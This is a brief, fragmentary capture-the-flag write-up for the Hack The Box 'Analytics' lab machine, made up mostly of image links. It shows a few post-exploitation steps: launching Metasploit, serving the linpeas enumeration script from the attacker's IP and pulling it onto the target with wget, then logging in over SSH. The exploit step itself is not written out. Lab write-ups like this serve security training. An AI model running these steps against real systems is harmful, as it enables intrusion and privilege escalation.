






[Link to the machine](https://app.hackthebox.com/machines/Analytics)

My IP : **10.10.14.15**

My target IP : **10.10.11.233**



Add domain



After looking at the site we have a redirection to a subdomain which we also need to add to our /etc/hosts : **data.analytical.htb**

```bash
 msfconsole
```





Dl script :

[Linpeas Script](https://github.com/carlospolop/PEASS-ng/releases/tag/20240128-3084e4e1)

In the script repository :

```bash
 python3 -m http.server 9090
```

Then in the msf console :

```bash
 wget http://10.10.14.15:9090/linpeas.sh
```



```bash
 ssh metalytics@10.10.11.233
```


